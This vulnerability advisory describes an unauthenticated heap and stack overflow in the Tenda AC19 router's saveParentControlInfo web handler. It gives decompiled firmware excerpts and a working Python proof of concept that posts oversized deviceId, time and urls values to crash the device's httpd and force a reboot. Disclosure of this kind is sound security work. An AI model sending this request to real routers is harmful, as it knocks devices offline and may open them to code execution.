




# Tenda AC19: Heap-Based Buffer Overflow (CWE-122) in `saveParentControlInfo`

## Summary

Tenda AC19 web management interface (`saveParentControlInfo` / `/goform/saveParentControlInfo`) is vulnerable to a heap-based buffer overflow via an overly long `deviceId` parameter, allowing an unauthenticated attacker to crash the httpd service and force a device reboot or potentially achieve arbitrary code execution.

## Impact

- **Impact type:** Denial of Service (DoS) of the httpd web service and forced device reboot; potential Remote Code Execution (RCE) via heap corruption
- **Authentication required:** not required
- **Privilege:** root, because the httpd process runs with elevated privileges on the device
- **User interaction:** not required

## Affected Products

- **Vendor:** Tenda
- **Product:** Tenda AC19 Dual-Band Gigabit Wi-Fi Router
- **Vulnerability type:** Heap-Based Buffer Overflow (CWE-122)

### Tested vulnerable firmware

- V16.03.10.07

**Firmware download address:**  
https://www.tendacn.com/material/show/103871

> The vulnerability was verified on firmware version V16.03.10.07

## Attack Vector

- **Entry point:** `POST /goform/saveParentControlInfo`
- **Handler selector:** `saveParentControlInfo`
- **Injection parameter:** `deviceId`
- **Authentication:** not required
- **User interaction:** not required

## Technical Details

The httpd web management component in Tenda AC19 exposes a handler associated with `saveParentControlInfo` and reachable through `/goform/saveParentControlInfo`. The interface requires no authentication, so it is reachable by any attacker with network access to the device web interface. During request processing, the handler reads the user-controlled `deviceId` parameter with `websGetVar(...)` and copies it into a 596-byte heap buffer obtained from `malloc(0x254u)` with `strcpy(ptr + 2, src)`, without any length validation or truncation. An overlong value therefore overruns the heap allocation and corrupts adjacent heap metadata.

The vulnerable function flow, based on the decompiled firmware analysis, is:

```c
void __fastcall saveParentControlInfo(_DWORD *a1)
{
  char *v1;              // [sp+18h] [bp+18h]
  char *ptr;             // [sp+1Ch] [bp+1Ch]
  const char *Var;       // [sp+20h] [bp+20h]
  char *src;             // [sp+24h] [bp+24h]
  int id_list;           // [sp+28h] [bp+28h]
  int parentcontrolinfo; // [sp+2Ch] [bp+2Ch]
  _BYTE s[512];          // [sp+30h] [bp+30h] BYREF
  _BYTE v8[248];         // [sp+230h] [bp+230h] BYREF
  int v9;                // [sp+328h] [bp+328h] BYREF
  ...
  src = websGetVar((int)a1, "deviceId", (int)&unk_4E03CC);   // user-controlled
  Var = websGetVar((int)a1, "deviceName", (int)&unk_4E03CC);
  if ( *Var )
    set_device_name(Var, src);
  if ( !compare_parentcontrol_time(a1) )
  {
    ptr = (char *)malloc(0x254u);   // 596-byte heap buffer
    memset(ptr, 0, 0x254u);
    strcpy(ptr + 2, src);          // unsafe copy of deviceId into the heap buffer
    v1 = (char *)malloc(0x254u);
    memset(v1, 0, 0x254u);
    ...
    get_parentControl_list_Info((int)a1, (int)v1);
    parentcontrolinfo = getparentcontrolinfo(0, &v9, (int)ptr);
    ...
  }
}
```



The same request reaches two further unchecked copies through the callees of this handler. The `time` parameter is passed to `compare_parentcontrol_time`, which reads it with `websGetVar(...)` and feeds it to `sscanf(s, "%[^-]-%s", v3, v11)`, where `v3` and `v11` are 4-byte stack buffers and neither conversion carries a field width, so an overlong value overruns the stack frame:

```c
int __fastcall compare_parentcontrol_time(_DWORD *a1)
{
  char *s;      // [sp+18h] [bp+18h]
  char v3[4];   // [sp+1Ch] [bp+1Ch] BYREF
  ...
  char v11[4];  // [sp+3Ch] [bp+3Ch] BYREF
  ...
  s = websGetVar((int)a1, "time", (int)&unk_4E03CC);   // user-controlled
  if ( *s )
  {
    ...
    sscanf(s, "%[^-]-%s", v3, v11);   // unbounded conversions into 4-byte stack buffers
    if ( !strcmp(v3, v11) )
    ...
  }
}
```



Later in the same request, `get_parentControl_list_Info` reads the `urls` parameter with `websGetVar(...)` and copies it with `strcpy((char *)(s + 80), v8)` into an output record without any length check, corrupting the destination buffer:

```c
int __fastcall get_parentControl_list_Info(int a1, int a2)
{
  ...
  char *v8;     // [sp+40h] [bp+40h]
  char *src;    // [sp+50h] [bp+50h]
  ...
  src = websGetVar(a1, "deviceId", (int)&unk_4E03CC);
  ...
  v8 = websGetVar(a1, "urls", (int)&unk_4E03CC);   // user-controlled
  ...
  strcpy((char *)(s + 2), src);
  strcpy((char *)(s + 34), nptr);
  sscanf(sa, "%d,%d,%d,%d,%d,%d,%d", &v13, &v14, &v15, &v16, &v17, &v18, &v19);
  ...
  *(_DWORD *)(s + 76) = atoi(nptr);
  strcpy((char *)(s + 80), v8);    // unsafe copy of urls, no length validation
  ...
}
```



The vulnerability flow - numbered steps:

1. **Unvalidated external input**  
   The handler obtains the `deviceId` value (and, in the same request, the `time` and `urls` values) directly from the incoming HTTP request via `websGetVar(...)`. The endpoint performs no authentication, so any network-reachable attacker can supply them.

2. **Unsafe heap copy / decode**  
   The externally controlled `deviceId` string reaches the destination heap buffer `ptr` obtained from `malloc(0x254u)`. Because `strcpy(ptr + 2, src)` does not enforce the destination size and no length check precedes it, an overlong value overwrites the heap chunk and its adjacent metadata. The accompanying `time` and `urls` parameters reach a width-less `sscanf(s, "%[^-]-%s", v3, v11)` (4-byte stack buffers) and a second `strcpy` into the `get_parentControl_list_Info` output record respectively, so the request exercises stack and heap out-of-bounds writes alike.

3. **Execution with system-level privileges**  
   The vulnerable operation occurs inside the router's httpd management process, which runs with elevated privileges. In testing, the immediate result was a crash and forced reboot of the device, and a sufficiently controlled overwrite could have broader security impact.

Overall, this matches **CWE-122: Heap-based Buffer Overflow**.

## Proof of Concept (PoC)

### Steps to reproduce

1. Connect to the Tenda AC19 web management interface (default `http://192.168.0.1`).
2. Send a crafted POST request to `/goform/saveParentControlInfo` with excessively long `deviceId`, `time` and `urls` values to overrun the `malloc(0x254u)` heap buffer allocated for the parent-control record and the destination buffers of its callees.
3. Observe that the httpd service crashes and the device reboots, making the management interface temporarily unreachable.

### Example request

The following PoC sends 600-byte `deviceId`, `time` and `urls` values to trigger the overflows in `saveParentControlInfo` and its callees.

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
[M-02] saveParentControlInfo 堆多字段越界 malloc(0x254)
POST /goform/saveParentControlInfo
"""
import requests

try:
    r = requests.post("http://192.168.0.1/goform/saveParentControlInfo", data='deviceId=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&time=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&urls=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA',
                  headers={"Content-Type": "application/x-www-form-urlencoded"}, timeout=10)
    print(r.status_code, r.text[:200])
    requests.get("http://192.168.0.1/", timeout=5)
    print("服务仍存活")
except:
    print("!! 服务不可达, 疑似崩溃/DoS")

```

### Verification

After the request is sent, the router firmware crashes and forces a reboot; the web interface becomes unreachable for a short period (the browser reports `ERR_NETWORK_CHANGED`), confirming a short-term denial of service.

**Vulnerable code / analysis evidence:**


**Observed result:**

